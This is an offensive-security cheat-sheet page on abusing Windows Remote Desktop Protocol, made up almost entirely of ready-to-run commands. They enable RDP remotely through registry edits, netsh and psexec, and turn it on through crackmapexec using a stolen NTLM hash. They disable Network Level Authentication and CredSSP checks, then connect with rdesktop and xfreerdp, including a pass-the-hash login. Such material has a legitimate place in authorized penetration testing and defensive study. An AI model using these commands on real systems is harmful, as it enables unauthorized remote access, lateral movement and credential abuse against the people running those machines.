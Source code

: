 ## RDP Remote Desktop Protocol

:warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Abuse RDP protocol to execute commands remotely with the following commands;

- `rdesktop`
    
    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
    
- `freerdp`
    
    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```
    